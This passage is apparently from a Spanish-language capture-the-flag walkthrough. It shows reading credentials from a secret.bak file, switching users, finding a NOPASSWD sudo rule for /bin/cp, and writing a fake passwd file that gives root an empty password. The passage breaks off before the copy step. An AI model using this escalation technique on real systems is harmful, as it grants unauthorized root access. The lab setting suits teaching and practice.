 Vemos un archivo interesante llamado `secret.bak`, si lo leemos veremos lo siguiente:

```shell
cat secret.bak
```

Info:

```
balulito:balulerochingon
```

Por lo que introduciremos dichas credenciales de la siguiente forma:

```shell
su balulito
```

Metemos como contraseña `balulerochingon` y seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for balulito on e3459b8d8277:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User balulito may run the following commands on e3459b8d8277:
    (ALL) NOPASSWD: /bin/cp
```

Por lo que vemos podemos ejecutar el binario `cp` como el usuario `root`, por lo que haremos lo siguiente para ser `root`:

Copiaremos todo el `passwd` y crearemos un `passwd_fake` en `tmp`:

```shell
nano /tmp/passwd_fake

#Dentro del nano
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
balu:x:1000:1000:balu,,,:/home/balu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
balulito:x:1001:1001:balulito,,,:/home/balulito:/bin/bash
```
